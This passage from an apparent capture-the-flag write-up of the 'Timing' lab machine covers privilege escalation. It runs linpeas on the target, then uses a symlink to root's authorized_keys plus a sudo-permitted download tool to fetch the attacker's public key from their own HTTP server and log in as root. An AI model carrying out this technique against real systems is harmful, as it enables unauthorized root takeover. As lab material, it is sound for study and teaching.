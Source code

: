 ### linpeas.sh
Let's run linpeas to enumerate all the vulnerabilities related to privesc.
```bash
❯ scp ./linpeas.sh aaron@10.10.11.135:/tmp
aaron@10.10.11.135s password: 
linpeas.sh                                       100%  748KB   1.6MB/s   00:00 
aaron@timing:~$ cd /tmp
aaron@timing:/tmp$ ls
hsperfdata_root
linpeas.sh
systemd-private-e9d0734106b94d539a697ee2a91113e3-apache2.service-TOpyPl
systemd-private-e9d0734106b94d539a697ee2a91113e3-systemd-resolved.service-Tb9WjZ
systemd-private-e9d0734106b94d539a697ee2a91113e3-systemd-timesyncd.service-jWTT4K
vmware-root_858-2722632195
aaron@timing:/tmp$ ./linpeas.sh 
```
From the output we can obtain the following information:
- Sudo version: `1.8.21p2` (Not vulnerable to polkit)
- ssh permits root login: `yes`

As the machine permits connecting as root, we can try adding our ssh key to `/root/.ssh/authorized_keys`. But we still need a way to do it, from now on we have two attack vectors:

### netutils as sudo
We can use netutils to overwrite the authorized_keys file, by using soft links. We will create a soft link to `/root/.ssh/authorized_keys` and download a file with the same name as the soft link, this will overwrite the downloaded content into that file.
```bash
aaron@timing:~$ ln -s /root/.ssh/authorized_keys keys
❯ cp ~/.ssh/id_rsa.pub keys
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
aaron@timing:~$ sudo netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: 10.10.14.122:8000/keys
Initializing download: http://10.10.14.122:8000/keys
File size: 568 bytes
Opening output file keys
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 568 byte in 0 seconds. (5.54 KB/s)

netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 2
❯ ssh root@10.10.11.135 -i ~/.ssh/id_rsa
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat May 21 16:54:12 UTC 2022

```